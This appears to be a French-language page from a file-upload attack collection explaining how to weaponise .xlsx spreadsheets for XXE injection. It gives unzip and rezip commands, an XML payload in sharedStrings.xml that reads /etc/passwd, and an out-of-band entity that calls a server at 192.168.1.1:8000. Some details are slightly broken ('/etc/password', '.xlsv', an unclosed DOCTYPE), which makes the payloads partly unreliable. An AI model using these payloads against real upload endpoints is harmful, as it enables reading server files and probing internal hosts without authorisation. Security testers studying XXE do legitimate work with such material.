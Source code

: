 # Office Open XML Spreadsheet

<img src="logo.png" title="" alt="" height="150">

**Facteur de risque** : XXE

**Extension** : `.xlsx`, `xlsm`

**Type MIME** : `application/vnd.openxmlformats-officedocument.spreadsheetml.sheet`

**Description** : 

**Office Open XML** (OOXML) est un format de fichier **zippé** et basé sur le **XML**, pour représenter des feuilles de calcul, des graphiques, des présentations et des documents de traitement de texte. 

`.xlsx` est une extension de nom de fichier pour tableur au format Office Open XML. `.xlsm` permet en plus l'utilisation des **macros**.

Un fichier `.xlsx` peut être désarchiver comme un fichier `.zip`. Il contient notamment plusieurs fichiers `.xml`. Microsoft conseille d'analyser dans l'ordre :

- le fichier `_rels/.rels`, qui contient les relations en reliant un ID à chaque fichier

- le fichier `[Content_Types].xml` qui contient une liste de type MIME

- le fichier `xl/workbook.xml`, qui donne une vue d'ensemble du contenu du classeur (nom des feuilles, etc.). La plupart du temps, les applications web analysent ce fichier en premier,

- les fichiers `xl/worksheets/sheet1.xml`, `xl/worksheets/sheet2.xml`... correspondent aux feuilles, avec les données numériques notamment,

- et le fichier `xl/sharedStrings.xml` contient les chaînes de caractères des différentes feuilles.

Un fichier Excel ou un fichier Google Sheets en `.xlsx` correspond donc en réalité à un fichier archive `.zip` contenant plusieurs fichiers `.xml`. Des payloads pour XXE peuvent être donc injectés dans les fichiers.

## Sommaire

- XML External Entity (XML)

## XML External Entity (XML)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur web doit analyser et traiter les données du fichier.

### Exploitation

Créez un nouveau fichier Excel ou Google Sheets vide, puis enregistrez le fichier au format `.xlsx` (**xxe.xlsx**)

1. Déarchivez le fichier `.xlsx` dans un répertoire (**FichierMalveillant**) :
   
   ```shell
   unzip xxe.xlsx -d FichierMalveillant
   ```

2. Le payload XXE doit être ajouté dans le fichier `.xml` que l'application traitera (dans les fichiers `xl/workbook.xml`, `xl/worksheets/sheet1.xml`, `xl/sharedStrings.xml` notamment) :
   
   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="4" uniqueCount="4">
   <si><t>ABCD</t></si>
   <si><t>&xxe;</t></si>
   <si><t>FGHI</t></si>
   <si><t>IJKL</t></si>
   </sst>
   ```
   
   Ici, le payload a été placé dans le fichier `xl/sharedStrings.xml`, pour récupérer le contenu de `/etc/password`.
   
   ```xml
   <!DOCTYPE go [
   <!ENTITY % go2 SYSTEM "http://192.168.1.1:8000/XXE">
   %go2;
   ```
   
   Ici, si le parser de l'application est vulnérable au XXE, il va se connecter via HTTP au serveur web 192.168.1.1 sur le port 8000, en demandant le fichier `XXE`.

3. Archivez à nouveau le fichier `.xlsv`, puis téléversez-le. (Il faut savoir que le fichier est techniquement correct d'après les spécifications, mais Office n'ouvrira pas le fichier). 
   
   ```shell
   zip -r xxe.xlsx FichierMalveillant/*
   ```
   
   ou
   
   ```shell
   zip -u xxe.xlsx xl/sharedStrings.xml
   ```

## References

- Exploiting XXE Vulnerabilities In File Parsing Functionality - YouTube : https://www.youtube.com/watch?v=LZUlw8hHp44
- Black Hat | WebCast: Exploiting XML Entity Vulnerabilities in File Parsing Functionality : https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html
- GitHub - BuffaloWill/oxml_xxe: A tool for embedding XXE/XML exploits into different filetypes : https://github.com/BuffaloWill/oxml_xxe
- GitHub - whitel1st/docem: Uility to embed XXE and XSS payloads in docx,odt,pptx,etc (OXML_XEE on steroids) : https://github.com/whitel1st/docem
- Exploiting XXE with Excel : https://www.4armed.com/blog/exploiting-xxe-with-excel/
- XXE injection is possible via specially crafted excel file : https://github.com/jmcnamara/excel-reader-xlsx/issues/10
- XXE at Bol.com : https://medium.com/@jonathanbouman/xxe-at-bol-com-7d331186de54]
- XXE ALL THE THINGS!!! (including Apple iOS's Office Viewer) | INTEGRITY Labs : https://labs.integrity.pt/articles/xxe-all-the-things-including-apple-ioss-office-viewer/index.html

## Todo

- AJouter un payload dans `xl/workbook.xml` et `xl/worksheets/sheet1.xml` (voir XXE at Bol.com)

- Ajouter un payload dans le fichier `[Content_Types].xml`

- an Excel file with a dangerous formula

- Ajouter pour les formats SVG, Libre Office ou Open Office (`word/document.xml` -> `content.xml`), et SVG à l'internieur de LIbre ou Open

- XSS
